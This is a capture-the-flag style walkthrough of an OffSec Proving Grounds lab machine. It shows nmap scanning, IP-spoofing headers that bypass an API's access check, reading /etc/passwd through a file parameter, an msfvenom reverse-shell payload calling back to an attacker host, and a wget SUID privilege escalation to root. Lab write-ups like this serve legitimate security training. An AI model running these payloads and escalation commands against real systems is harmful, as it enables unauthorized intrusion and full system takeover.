This is a walkthrough for the xposedapi machine on Proving Grounds, the pentesting lab environment provided by OffSec.
## Enumeration
Began enumeration by running nmap to scan ports and identify services and service versions.  
`sudo nmap -p- -sV 192.168.53.134`
>Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-20 10:32 EDT  
Nmap scan report for 192.168.53.134  
Host is up (0.00072s latency).  
Not shown: 65533 closed tcp ports (reset)  
PORT      STATE SERVICE VERSION  
22/tcp    open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)  
**13337/tcp open  http    Gunicorn 20.0.4**  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel  
>  
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
Nmap done: 1 IP address (1 host up) scanned in 8.66 seconds  

Navigated to http://192.168.53.134:13337 and the homepage states that this is a Remote Software Management API and lists information on how to use the API  
  
  
  

Checked out each API endpoint (minus restart - I think we know what that does, but it can be explored if other avenues don't yield any results):  
http://192.168.53.134:13337/version  
  

http://192.168.53.134:13337/logs  
  
May be able to do WAF bypass here...  

Tried to test out the update endpoint and upload a test .elf file  
  
  
Username bruteforcing may be necessary here

## Exploitation
Launched burp suite and sent my GET request to the logs API endpoint again. Used repeater to repeat the request, however, this time I placed some common WAF bypass headers in the request before sending it:  
>X-Originating-IP: 127.0.0.1  
X-Forwarded-For: 127.0.0.1  
X-Remote-IP: 127.0.0.1  
X-Remote-Addr: 127.0.0.1  
X-Client-IP: 127.0.0.1  

  
Much better!  

Abused the file parameter to view /etc/passwd  
  
One username of interest here is "clumsyadmin"  

Rather than send a blank .elf file, created a reverse shell .elf file using msfvenom  
`msfvenom -p cmd/unix/reverse_netcat LHOST=192.168.49.53 LPORT=13337 > shell.elf`  
  
  
Started a python web server on Kali to host the reverse shell (the server runs on port 8000 by default)  
`python3 -m http.server`  
Started a nc listener on port 13337 (used a port that the server has open; firewalls are commonly misconfigured to allow traffic in **and** out on a certain port)  
`nc -lvp 13337`  

Uploaded the reverse shell file to the target web server  
  
This looks promising!  

Sent an API call to restart the remote management software  
  

  
Got a reverse shell!  
## Privilege Escalation
Transferred over linpeas.sh from my Kali python web server to clumsyadmin's home folder, however every time I tried to run `chmod +x linpeas.sh`, root took ownership of the file and I wasn't granted execution permissions on the file...  
Instead, in the clumsyadmin home directory, I created a new file named "test" and copied the permissions of a file with the execution bit set (in this case, the "app" file), then I piped the contents of linpeas.sh into the now executable test file  
`echo test > test`  
`chmod --reference=app test`  
`cat linpeas.sh > test`  
  
Reflecting on this, I probably could have avoided creating a test file and just ran `chmod --reference=app linpeas.sh`  

After successfully running linpeas, I discovered that wget has the SUID bit set which [can be abused](https://gtfobins.github.io/gtfobins/wget/#suid) to escalate privileges  
  

Created an executable shell file named "privesc" that spawns /bin/sh with the -p parameter.  
The -p parameter is necessary because without it, the effective UID in the shell would be 1000 (clumsyadmin) rather than 0 (root) when the wget SUID binary executes the "privesc" file  
`echo -e '#!/bin/sh -p\n/bin/sh -p 1>&0' > privesc`  
`chmod --reference=app privesc`  
  

Abused wget's SUID permissions by specifying [--use-askpass](https://gitlab.com/gnuwget/wget2/-/issues/240#note_44917321) and pointing to the "privesc" shell file  
`wget --use-askpass=./privesc 0`  
  
Got root!
